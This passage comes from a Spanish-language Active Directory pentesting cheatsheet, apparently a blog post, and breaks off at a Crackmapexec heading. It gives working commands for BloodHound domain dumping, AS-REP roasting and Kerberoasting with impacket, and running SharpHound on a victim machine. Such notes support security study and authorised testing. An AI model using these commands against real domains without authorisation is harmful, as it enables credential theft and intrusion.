 🔻 Tengo credenciales válidas❓

-   ✅ Dumpeo la estructura del dc
    
    `python3 /opt/Bloodhound/bloodhound.py -c All -u '<USER>' -p '<PASS>' -ns <IP> -d <DNS>`
    

### [](https://viksant.hashnode.dev/active-directory-cheatsheet#heading-7-kerberoasting-asrep-roasting "Permalink")7️⃣ Kerberoasting / ASRep-Roasting

### [](https://viksant.hashnode.dev/active-directory-cheatsheet#heading-asrep-roasting "Permalink")ASRep-Roasting

🔻 Tengo lista de usuarios y conozco el DNS❓

-   ❌ Sigo enumerando
    
-   ✅ AS-Rep-Roasting:
    
    `impacket-GetNPUsers <DNS>/ -no-pass -usersfile <user_list>` (-k para kerberos auth)
    

### [](https://viksant.hashnode.dev/active-directory-cheatsheet#heading-kerberoasting "Permalink")Kerberoasting

🔻 Tengo credenciales válidas❓

-   ❌ Seguir enumerando o probar ASRep-Roasting
    
-   ✅ Kerberoasting:
    
    `impacket-GetUserSPNs <DNS>/<user>:<pass> -output <file>`
    

### [](https://viksant.hashnode.dev/active-directory-cheatsheet#heading-8-enumeracion-dentro-de-la-maquina "Permalink")8️⃣ Enumeración dentro de la máquina

#### [](https://viksant.hashnode.dev/active-directory-cheatsheet#heading-sharphound "Permalink")SharpHound

🔻 Lo subo a la máquina victima:

-   `.\Sharhound.exe -c All`
    
    -   Me devolverá un .zip
        
        -   Lo bajo a mi máquina usando `--download`

# [](https://viksant.hashnode.dev/active-directory-cheatsheet#heading-foothold "Permalink")Foothold

### [](https://viksant.hashnode.dev/active-directory-cheatsheet#heading-1-crackmapexec "Permalink")1️⃣ Crackmapexec

🔻Cuando tengo credenciales:
